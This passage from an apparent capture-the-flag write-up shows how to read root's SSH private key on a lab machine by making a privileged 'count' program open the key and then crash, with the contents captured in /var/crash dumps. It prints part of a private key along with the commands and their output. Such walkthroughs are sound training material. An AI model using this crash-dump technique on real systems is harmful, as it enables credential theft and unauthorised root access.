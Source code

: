     ""0     LINE    0
            -----BEGIN OPENSSH PRIVATE KEY-----
            b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
            NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
            KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
    ...[snip]...
            xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
            fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
            -----END OPENSSH PRIVATE KEY-----
    ...[snip]...



There's an SSH key!

### Exploit Crash Dump

#### Generate Dump

There's a comment in the source `// Enable coredump generation`. That's
a good hint to try generating a crash of the process. When a program
crashes, the system stores the crash dump files
[in](https://refspecs.linuxfoundation.org/FHS_2.3/fhs-2.3.md#VARCRASHSYSTEMCRASHDUMPS)
`/var/crash`. There's actually already two there:



    dasith@secret:/var/crash$ ls -l                   
    total 52                                                                                                 
    -rw-r----- 1 root root 27203 Oct  6 18:01 _opt_count.0.crash
    -rw-r----- 1 root root 24048 Oct  5 14:24 _opt_countzz.0.crash



These are dated from back before this box released, so they are likely
the developer playing with the `count` (and `countzz`?) program.

The plan is to start the program, have it read something interesting I
want to read, and then cause it to crash. When I listed `/root` earlier,
there was a `.ssh` directory. Looking in that directory (with `count`)
shows there's an `id_rsa` file. I'll try to read that.

First I'll start count and read the file:



    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/id_rsa
                                                        
    Total characters = 2602
    Total words      = 45
    Total lines      = 39                    
    Save results a file? [y/N]:



Waiting for my input, I'll Ctrl-z to background the process:



    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count     
    dasith@secret:/opt$ 
